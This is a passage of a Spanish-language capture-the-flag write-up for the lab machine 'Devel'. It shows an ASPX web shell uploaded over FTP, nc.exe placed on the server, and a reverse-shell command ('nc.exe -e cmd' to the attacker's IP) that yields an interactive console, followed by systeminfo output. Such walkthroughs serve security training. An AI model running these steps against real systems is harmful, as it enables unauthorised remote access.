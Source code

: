 ```
local: aspx_cmd.aspx remote: aspx_cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1438 bytes sent in 0.00 secs (16.9307 MB/s)
```

![upload-aspx-cmd](Images/imagen03.png)

Vemos que tenemos ejecución remota de comandos y que nos encontramos en la maquina victima

![RCE-aspx](Images/imagen04.png) 

Por tanto nos movemos el siguiente archivo al servidor */usr/share/SecLists/Web-Shells/FuzzDB/nc.exe*

```console
ftp> put nc.exe
```

```
local: nc.exe remote: nc.exe
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
28306 bytes sent in 0.00 secs (35.7546 MB/s)
```

revisamos si desde el *cmd.aspx* tenemos acceso a la carpeta

![dir-inetpub](Images/imagen05.png)

Por tanto corremo el nc desde el serverpara darnos una consola interactiva a nuestra maquina

```console
sudo nc -nrlp 443
```

```console
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.3 443
```

![nc-aspx](Images/imagen06.png)

una vez dentro la maquina vemos el *sisteminfo*

```console
c:\Users>systeminfo
```

```
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          30/8/2022, 5:39:09 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
```

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>